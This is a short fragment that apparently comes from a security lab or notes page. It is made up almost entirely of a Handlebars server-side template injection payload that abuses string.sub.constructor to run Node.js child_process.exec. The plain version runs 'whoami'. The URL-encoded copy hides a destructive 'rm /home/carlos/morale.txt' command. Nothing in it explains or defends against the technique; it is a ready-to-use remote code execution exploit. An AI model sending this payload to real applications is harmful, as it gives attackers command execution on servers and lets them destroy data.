 {{#with "s" as |string|}}

{{#with "e"}}

{{#with split as |conslist|}}

{{this.pop}}

{{this.push (lookup string.sub "constructor")}}

{{this.pop}}

{{#with string.split as |codelist|}}

{{this.pop}}

{{this.push "return require('child_process').exec('whoami');"}}

{{this.pop}}

{{#each conslist}}

{{#with (string.sub.apply 0 codelist)}}

{{this}}

{{/with}}

{{/each}}

{{/with}}

{{/with}}

{{/with}}

{{/with}}

​

URLencoded:

%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d

**More information**
